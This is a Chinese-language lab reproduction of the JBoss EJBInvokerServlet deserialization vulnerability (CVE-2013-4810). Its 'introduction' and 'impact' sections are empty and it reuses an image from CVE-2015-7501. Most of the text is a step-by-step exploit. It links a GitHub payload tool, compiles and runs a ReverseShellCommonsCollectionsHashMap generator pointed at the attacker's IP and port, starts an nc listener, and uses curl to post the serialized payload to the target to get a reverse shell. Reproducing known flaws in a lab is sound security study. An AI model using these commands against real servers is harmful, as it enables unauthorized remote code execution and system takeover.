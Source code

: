 ```yaml
---
title: "（CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞"
id: zhfly2983
---
```


# （CVE-2013-4810）JBoss EJBInvokerServle 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入http://172.26.1.151:8080/invoker/EJBInvokerServle 返回如图（图片是CVE-2015-7501的图片。差不多就是这个意思。凑活看哈~），说明接口开发，存在反序列化漏洞

![image](../img/c5512da83d294f63918fbd8c260e0089.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](../img/07d7c1977844ba20a10d937871c15cba.png)

打开nc界面，发现shell已经弹回来了

![image](../img/778060853ab56211b93d767fa8272659.png)